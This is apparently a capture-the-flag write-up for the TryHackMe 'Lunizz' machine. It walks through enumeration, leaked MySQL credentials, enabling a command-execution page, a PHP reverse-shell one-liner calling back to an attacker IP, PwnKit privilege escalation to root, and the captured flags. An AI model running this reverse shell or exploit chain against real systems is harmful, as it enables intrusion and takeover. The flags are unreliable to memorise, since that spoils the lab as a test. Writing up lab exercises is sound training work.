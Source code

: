 ![alt text](image.png) 

----

## Initial Foothold
**PortScanning**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ sudo python3 pymap.py -t luni.thm --all >> ports.txt

[+] Port scanning...
80/tcp   open  http
3306/tcp open  mysql
4444/tcp open  krb524
5000/tcp open  upnp
```
- Here we found some ports but the mysql seems very suspicious to me
- And the other two unknown ports `krb524` & `upnp` are also interesting. I will use them with the webserver



**Directory Enumeration**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ feroxbuster -u http://luni.thm/ >> ferox.txt

http://luni.thm/hidden 

http://luni.thm/hidden/uploads

http://luni.thm/whatever/

```
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ cat directory.txt
/instructions.txt     (Status: 200) [Size: 339]
/hidden               (Status: 301) [Size: 305] [--> http://luni.thm/hidden/]
/whatever             (Status: 301) [Size: 307] [--> http://luni.thm/whatever/]

```

## Web Server Enumeration
**Looking for File Upload Vuln**
- At `http://luni.thm/hidden/` 

![alt text](image-1.png)

- I thought There will be a file upload vulnerability , I might have but I couldn't break the validation

**Try to Break Command Executer Validation**

- At `http://luni.thm/whatever/` I found a command executer, I thought My command may work but its only reflecting the command I might be for the validation. It may restricted the command executer in its DataBase. And Look we also found that there is a mysql server is up and running.

![alt text](image-2.png)


**Checking with Other ports**

- At `http://luni.thm:4444/` I found a hash code , Lets break it!
-  `bGV0bWVpbg==:letmein` this is a sha-1 hash

- At `http://luni.thm:4444/robots.txt` We found another password
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ echo "ZXh0cmVtZWhhcmRyb290cGFzc3dvcmQ=" | base64 -d
extremehardrootpassword
```

- I think these are some wrong password because under the hash there is a hint of it

**Another Directory**
![alt text](image-3.png)

- It is saying us to login through mysql and its also provided the creds

**Username:`runcheck`**
**Password:`CTF_script_cave_changeme`**

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/lunizz]
└─$ mysql -u runcheck -h luni.thm -p --ssl=0
```

```sql

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+

MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.169 sec)

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.170 sec)

MySQL [runornot]> update runcheck set run = 1 ;
Query OK, 1 row affected (0.172 sec)
```

- I have changed the permission of DB of the Command Executer

- `ls`

![alt text](image-5.png)

- `whoami`

![alt text](image-6.png)

- `pwd`
- `/var/www/html/whatever`

## Getting Shell

**Adding a `php exec` shell**

```php
php -r '$sock=fsockopen("10.11.96.92",8080);exec("sh <&3 >&3 2>&3");'
```
![alt text](image-7.png)

- Adding a python3 `pty` to add a beautiful terminal


**Trying to find Vulnerability using `linpeas.sh`**
- Find many things out
```sh

╔══════════╣ Unexpected in root
/proct
/initrd.img.old
/vmlinuz.old
/swap.img
/initrd.img
/vmlinuz

```

**Lets try les.sh which finds linux exploits**

```sh
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```
#### Exploit Suggestion : [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
- Lets use the first one.

### PrivEsc
```sh
www-data@lunizz:/tmp/10.11.96.92:8080/CVE-2021-4034-main$ ./cve-2021-4034
# whoami
root
# cd /root
# ls
index.php  r00t.txt
# cat r00t.txt
thm{ad23b9c63602960371b50c7a697265db}
```
**user**
```sh
root@lunizz:/home# cd mason
root@lunizz:/home/mason# ls
user.txt
root@lunizz:/home/mason# ls -la
total 24
drwxr-x--- 2 mason mason 4096 Feb 28  2021 .
drwxr-xr-x 4 root  root  4096 Feb 28  2021 ..
-rw-r--r-- 1 mason mason  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mason mason 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 mason mason  807 Apr  4  2018 .profile
-rw-r----- 1 mason mason   38 Feb 28  2021 user.txt
root@lunizz:/home/mason# cat user.txt
thm{23cd53cbb37a37a74d4425b703d91883}
```